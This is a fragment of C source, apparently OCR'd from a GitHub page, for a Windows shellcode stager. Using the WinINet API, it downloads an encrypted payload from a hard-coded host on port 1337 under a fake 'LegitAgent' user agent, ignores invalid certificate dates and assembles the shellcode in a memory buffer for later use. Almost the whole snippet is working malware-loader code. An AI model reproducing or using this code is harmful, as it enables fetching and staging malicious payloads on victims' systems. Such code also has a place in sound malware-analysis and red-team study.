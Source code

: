 ```c
    SIZE_T sSize = NULL;						// Total accumulated bytes downloaded.
    PBYTE pBytes = NULL;						// Pointer to the final dynamically allocated buffer that will contain the shellcode
    PBYTE pTmpBuffer = NULL;					// Temporary 1KB buffer to read chunks from the internate

    // Create a handle to the internet session.
    hInternet = InternetOpenW(L"LegitAgent", NULL, NULL, NULL, NULL);
    if (hInternet == FALSE) {
        printf("InternetOpenW Failed with error code: %d \n", GetLastError());
        return -1;
    }

    // Open the handle to the shellcode specified by HTTP URL.
    hInternetShellcode = InternetOpenUrlW(hInternet, L"http://192.168.1.86:1337/encrypted_payload.bin", NULL, NULL, INTERNET_FLAG_HYPERLINK | INTERNET_FLAG_IGNORE_CERT_DATE_INVALID, NULL);
    if (hInternetShellcode == NULL) {
        printf("InternetOpenUrlW Failed with error code: %d \n", GetLastError());
        return -1;
    }

    // pTmpBuffer is used to store 1024 bytes
    pTmpBuffer = (PBYTE)LocalAlloc(LPTR, 1024);

    while (TRUE) {
        // Writing 1024 b ytes to the pTmpBuffer.
        BOOL bReadFile = InternetReadFile(hInternetShellcode, pTmpBuffer, 1024, &dwBytesRead);
        if (bReadFile == FALSE) {
            printf("InternetReadFile failed with error: %d \n", GetLastError());
            InternetCloseHandle(hInternet);
            return -1;
        }

        // keeps track of the total number of bytes read from the file.
        sSize = sSize + dwBytesRead;

        // If this is the first chunk, allocate fresh memory of dwBytesRead size.
        if (pBytes == NULL) {
            pBytes = (PBYTE)LocalAlloc(LPTR, dwBytesRead);
        }

        else {
            // Reallocate the pBytes to equal to the total size, i.e. sSize
            pBytes = (PBYTE)LocalReAlloc(pBytes, sSize, LMEM_MOVEABLE | LMEM_ZEROINIT);
        }


        // Append the temp buffer to the end of the total buffer
        PBYTE pTarget = pBytes + (sSize - dwBytesRead);
        memcpy(pTarget, pTmpBuffer, dwBytesRead);

        ZeroMemory(pTmpBuffer, dwBytesRead);

        // once the bytes size of dwBytesRead reaches less than 1024, then its the end of the fiel.
        if (dwBytesRead < 1024) {
            break;
        }

    }
    //pointer to full shellcode buffer.
    *pPayloadBytes = pBytes;

    // total size of downloaded shellcode.
```